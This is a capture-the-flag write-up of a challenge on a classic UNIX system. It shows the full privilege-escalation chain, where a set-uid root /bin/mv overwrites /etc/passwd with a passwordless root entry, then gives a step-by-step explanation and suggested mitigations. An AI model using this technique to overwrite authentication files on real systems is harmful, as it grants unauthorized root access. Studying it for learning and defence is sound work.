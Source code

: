 ## johnlions ##

### tl;dr ###
The binary `/bin/mv` was set-uid `root`, which meant that you could overwrite
files used for authentication (such as `/etc/passwd` or `/etc/shadow`) and thus
escalate to root privileges.

### Session ###
The following is the logs from a session where the above exploit was used to
read the target file (`/flag`).

```shell
$ find / -type f -user root -perm -4000 -print
/bin/mv
/bin/login
/bin/mail
/bin/mkdir
/bin/newgrp
/bin/passwd
/bin/su
/bin/rmdir
/usr/lib/atrun
$ cat /etc/passwd
root:x:0:1::/:
ctf::7:3::/:
$ cat - > /usr/ctf/passwd
root::0:1::/:
ctf::7:3::/:
$ /bin/mv /usr/ctf/passwd /etc/passwd
mv: /etc/passwd: 644 mode y
$ cat /etc/passwd
root::0:1::/:
ctf::7:3::/:
$ su
# cat /flag
9447{h4cking_like_its_1979}
#
```

### What just happened? ###
Here's a breakdown of the above key commands:

#### `find / -type f -user root -perm -4000 -print` ####

This command is used to find all set-uid binaries owned by `root`. cyphar then
went about reading through each one and seeing which binary (if any) was not
(on a standard system) set-uid `root`. The most likely candidates were
`/bin/mkdir`, `/bin/rmdir` and `/bin/mv`. However, on a classic UNIX system
(such as this challenge was being run on), the syscalls for creating files and
directories must be executed by `root` (auscompgeek realised this from some
quick Googling). Thus, `/bin/mv` would be our attack vector.

#### `cat - > /usr/ctf/passwd` ####

The user we were given access to had `rwx` rights to the directory `/usr/ctf/`.
Since the shell being run was a relatively "dumb" shell (it didn't support
process substitution), in order to use `/bin/mv` to overwrite `/etc/passwd` we
would need to have a location where we could create and write to files.

The data written afterward is a modified `/etc/passwd` file, where `root`'s
password has been disabled (NOTE: the second field of the `root` line is blank,
which is interpreted by `su` as no password authentication required for the
given user).

#### `/bin/mv /usr/ctf/passwd /etc/passwd` ####

This is the exploit. Because `/bin/mv` is set-uid `root`, it can write to
`/etc/passwd` when executed by **any** user. Thus we can replace the system's
authentication files with our own, and log in as any user.

> **NOTE**: Due to the different file modes, you are asked to confirm the
> overwriting of `/etc/passwd`. You just need to provide `y` as the answer to
> continue the exploit (the full prompt doesn't appear in the above session).

#### `su` ####

Since we have overwritten `/etc/passwd`, you can log in as `root` with no
password (NOTE: the change of the prompt from `$` to `#` indicates that the
escalation to root was successful).

#### `cat /flag` ####

This just discloses the information inside the target file, revealing the flag
and completing the challenge.

### Notes ###

* Both cyphar and auscompgeek really hate `telnet` (no line editing and
  backspace doesn't work -- grrr)
* cyphar now appreciates just how much GNU has provided in terms of
  user-friendly tools and features.

### Mitigations ###

In order to make this exploit not work, `/bin/mv` should either implement some
kind of primitive access control (like `su` or other proper set-uid `root`
programs), or have the set-uid mode bit disabled for the binary.
